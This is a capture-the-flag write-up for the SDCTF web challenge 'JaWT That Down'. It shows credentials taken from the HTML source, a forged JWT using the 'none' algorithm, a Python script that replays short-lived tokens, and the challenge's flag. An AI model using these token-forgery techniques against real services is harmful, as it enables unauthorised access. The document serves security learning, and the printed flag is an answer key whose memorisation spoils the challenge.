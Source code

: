# JaWT That Down

**Category**: Web  
**Level**: Easy  
**Points**: 200  
**Description**:
```
The new ultra maximum security plugin I installed on my website is so good that even I can’t log in. Hackers don’t stand a chance.
Website
https://jawt.sdc.tf/
```

## Writeup

The description of this challenge doesn't have much clues but the creator have deliberately captilized the letters 'J', 'W', 'T' in the heading which caught our attention. We immediately got the hint that this challenge will require the knowledge of JWT and its exploitation. We started by glancing through the website's functionality on a very high level and were easily able to figure out that we somehow have to get through the user login. This will provide us the JWT token which can be further exploited to get the flag. After this high level run through, I was assigned to pick up this challenge.

I started by performing SQL injection in the login form with simple payloads from the top of my head but it didn't work. I was tempted to run sqlmap behind the scenes but I resisted and looked through the source code using browser's(Chrome in my case) debugger tools. I took this detour because I had also spent time on the challenge 'HuMongous Mistake'(which I wasn't able to solve) and found some useful comments in the HTML source code. 
In a similar manner, I found the user credentials and was able to successfully log in which saved me a lot of time.

<screenshot> * 1

After login, the first thing that caught my eye was an extra menu item named 'Flag' on the top left but once I click on it, it showed "Invalid Token: Access Denied". 

<screenshot> * 2

I fired up Burp Suite and intercepted the HTTP call which is sent once I click on 'Flag'. Let's call it flag endpoint. The first thing that caught my eye was the JWT token which is passed in Cookie request header. So, I replayed the request after removing the Cookie request header which showed me a different error "No Token: Access Denied". I was fully convinced that I am on the right track and I need to pass a valid JWT token in order to proceed. 

<screenshot>

My next step was to figure out why my JWT isn't valid. I read the token on https://jwt.io/ and figured out that the issue time and expiry time has a gap of mere 2 seconds which explained the error "Invalid Token: Access Denied" because by the time I clicked on 'Flag' the token was already expired. I had two solutions in my mind to overcome this problem:
- Either, I can verify if JWT signature verfiication can be bypassed which will allow me to increase the expiry time.
- Or, I make a script to automate this process of logging in and using the JWT token in the next flag endpoint.

### First Approach

I went with the first option because writing a script for me would take comparatively more time. Here is a [good read of JWT's 'none' algorithm](https://medium.com/@phosmet/forging-jwt-exploiting-the-none-algorithm-a37d670af54f).
Essentially, I divided the JWT token into 3 base64 encoded parts by splitting it using '.'(period). I base64 decoded the first part on https://www.base64decode.org/, changed the value of "alg" to "none", base64 encoded it on https://www.base64encode.org/. This was tampering of first part of JWT(called header). Then I did the same thing with the second part(called payload) except I increased the expiry to a month. I joined both the parts and recreated my final JWT token

**Before**: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkF6dXJlRGlhbW9uZCIsInRva2VuIjoiZGVmZjVmZmU0YWY0OWYzOWE3ZjI2YTBlN2U0NGQ1NCIsImlhdCI6MTY1MjE3NzExMiwiZXhwIjoxNjUyMTc3MTE0fQ.jmcOs7t4hSFYad3wz2S993jJ7lQOYbG_paBrqSByBBM`

**After**: `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6IkF6dXJlRGlhbW9uZCIsInRva2VuIjoiZGVmZjVmZmU0YWY0OWYzOWE3ZjI2YTBlN2U0NGQ1NCIsImlhdCI6MTY1MjE3NzExMiwiZXhwIjoxNjU0ODU3NDI3fQ.`

However, I got the same error "Invalid Token: Access Denied" using my new token. Hence, I scratched out the first approach and went back to the second approach.

### Second Approach

I quickly wrote a little python script which looked like this:
```python
import requests
from requests_toolbelt.utils import dump

ch = 's'

loginUrl = "https://jawt.sdc.tf/login"
payload = {'username':'AzureDiamond','password':'hunter2'}

r = requests.post(loginUrl, data=payload, allow_redirects=False)
cookieHeader = r.headers['Set-Cookie']
if not cookieHeader:
	print("cookie header not found")
	exit()

cookieKeyValue = cookieHeader.split(";")[0].split("=")

flagUrl = "https://jawt.sdc.tf/"+ch

cookies = {}
cookies[cookieKeyValue[0]] = cookieKeyValue[1]

re = requests.get(flagUrl, cookies=cookies)
data = dump.dump_all(re)
print(data.decode('utf-8'))
```

The above script hits the `/login` endpoint, reads the JWT token from Set-Cookie response header, sets it in the the flag endpoint `/s` and prints the request/response of the flag endpoint. It gave me the following output:

```http
< GET /s HTTP/1.1
< Host: jawt.sdc.tf
< User-Agent: python-requests/2.27.1
< Accept-Encoding: gzip, deflate
< Accept: */*
< Connection: keep-alive
< Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkF6dXJlRGlhbW9uZCIsInRva2VuIjoiMzc5Y2EyOWRmNmQ5ZjM1N2U5ZTdjZWEzOTcxNzQ2NiIsImlhdCI6MTY1MjE3OTI4MCwiZXhwIjoxNjUyMTc5MjgyfQ.7lxeRGwHBFhpeChplXje1-LLHbF_mdZx7DzrCpgl32M
<

> HTTP/1.1 200 OK
> Date: Tue, 10 May 2022 10:41:20 GMT
> Content-Length: 1
> Connection: keep-alive
> X-Powered-By: Express
> Via: 1.1 google
> CF-Cache-Status: DYNAMIC
> Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
> Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=aiYf7PWSnmhxBfoNe5a%2BJ8YB3o%2BvUj8O1CK55r300zSWI50ioyAHEvt38IH2N8wAQ2B9uC2tmKKR%2B7CaAzOqcSLY%2FOcBKGoaTu%2BmO8MAyiIyIQB3LQ0VOZckW%2BXQMQ%3D%3D"}],"group":"cf-nel","max_age":604800}
> NEL: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
> Server: cloudflare
> CF-RAY: 70920fd6dab29e47-SIN
> alt-svc: h3=":443"; ma=86400, h3-29=":443"; ma=86400
>
d
```

I wasn't able to understand the response of this for a long time. I tried hitting `/d` endpoint by changing the python script but it gave me 404 not found. Similariy, I tried hitting `/sd` and enumerated from `/a` to `/z` both in small and capital letters but got the same result. At this point, I took a new challenge. I later got an idea to give a try to `/s/d` and it worked. It gave me `/c`. Since all the flag of this challenge started with 'sdctf' therefore I continued this methodology by changing the script, saving and hitting one by one. Evnetually I got this endpoint `https://jawt.sdc.tf/s/d/c/t/f/{/T/h/3/_/m/0/r/3/_/t/0/k/3/n/s/_/t/h/e/_/l/e/5/5/_/p/r/0/b/l/3/m/s/_/a/d/f/3/d/}` which has the flag

**Flag** - `sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf3d}`


## Real World Application

In real world applications, short-lived JWT tokens are very much used. But even if they are short-lived, they can be exploited to retrieve sensitive information. Hence, reducing the expiry time wouldn't necessarily mean that the system is protected.
During the course of this challenge, I had great fun reading about JWT, JWK and JWS which enhanced my knowledge while at the same time helped me practically understand the exploitation of it. 











